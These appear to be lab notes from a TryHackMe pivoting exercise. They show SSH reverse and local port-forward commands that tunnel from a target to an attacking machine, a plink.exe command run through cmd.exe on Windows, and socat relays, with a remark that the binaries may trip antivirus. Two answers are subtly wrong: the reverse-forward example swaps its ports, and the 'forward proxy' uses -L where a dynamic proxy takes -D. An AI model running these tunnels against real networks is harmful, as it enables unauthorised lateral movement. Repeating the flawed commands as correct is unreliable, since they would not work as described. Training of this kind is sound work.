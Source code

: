 Copy contents of `.pub` to `~/.ssh/authorized_keys` on second line add:

    command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty

`authorized_keys` example:

![](https://paper-attachments.dropbox.com/s_AA3ECD4DEB7CCFEEB9E9A8742F598F315528988491FA0985E2201EB5CF96B23F_1648925042587_image.png)



 **Transfer private key to target box**

    ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

keys should be discarded after engagement.

Create a reverse portforward example:

If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called `id_rsa` and backgrounding the shell, what command would you use? (Assume your username is "kali")

    ssh -R 22:172.16.0.100:2222 kali@172.16.0.200 -i id_rsa -fN

Create a forward proxy example:

What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?

    ssh -L 8000 user@target.thm -fN

Create SSH access to webserver through port 80

If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.

    ssh -L 8000:127.0.0.1:80 user@172.16.0.50


## Task 12  Pivoting plink.exe

Plink is a Windows based connection tool used by PuTTY and can be used for SSH acting as client.


    cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N

`puttygen` can be used to conver OpenSSH keys into PuTTY style keys.


## Task 13  Pivoting Socat

Great pivoting tool for fully stable linux shells. Static binaries are avaiable for both Linux and Windows (will likely not pass antivirus). To be of not that the syntax required for socat may become complicated.

![Diagram demonstrating the purpose of a relay to forward a shell back from a target PC](https://assets.tryhackme.com/additional/wreath-network/502e2fa5765e.png)
